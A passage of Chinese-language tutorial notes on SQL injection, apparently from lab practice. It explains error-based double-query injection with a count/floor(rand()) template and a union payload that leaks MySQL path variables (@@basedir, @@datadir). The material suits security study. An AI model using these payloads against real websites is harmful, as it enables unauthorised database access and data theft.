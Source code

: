 
在直接输入'的时候没有报错，先不要着急 尝试加入`双引号`,因为`双引号中可以包含单引号`


## **GET单引号字符型[双注入](https://www.jianshu.com/p/e097a1c0d9ef)**
暴躁之A君：`在，什么是双注入？编不出来打死你！`

> 原理：当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。

所使用的函数:
```
说明：
rand()是一个生成随机数的函数，他会返回0到1之间到一个值。
floor()是取整函数了，童鞋们应该都很熟悉了。
count()是一个聚合函数，用户返回符合条件的记录数量。
```
>套路(代码)大概：
```sql
select count(*),concat_ws(':',([子查询],floor(rand()*2))) as a form [table_name] group by a;
```

可以理解为因为默写插叙只会返回有和空值，所以要在查询中额外查询所要的函数值。(禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃)

我们把`count函数`也加上，这时候需要注意，要从一张表中查询结果，具体从什么表没关系，但是一定要确保有这个表，所以比较好的选择方案就是`information_schema`中的表，比如:

```sql
select count(*),concat_ws(':',(select database()),floor(rand()*2)) as a from information_schema.tables;
```

`BUT`如果前几次一直无返回值，也不要恐惧，解决恐惧的最好办法就是面对恐惧，坚持，就是胜利！*(奥里给)*
因为这坑爹的返回值是有50%的gay率返回为1 也就是查询有值。所以就写个脚本去试试吧 *(奥里给)*


## **导出文件GET字符型注入**

暴躁之A君：不知道那个倒霉孩子取的名字

简单的来说：`导出到文件就是可以将查询结果导出到一个文件中。`
`sqlmap`中也有导出一句话和一个文件上传的语句。
这里的语句为：

![](img/1.png)

当这里要获取到网站的在系统中的具体路径（绝对路径）

> 首先介绍两个可以说是函数，还是变量的东西(a君:淦)
```sql
@@datadir 读取数据库路径
@@basedir MYSQL 获取安装路径
```
```sql
1') union select 1,@@basedir,@@datadir %23
```
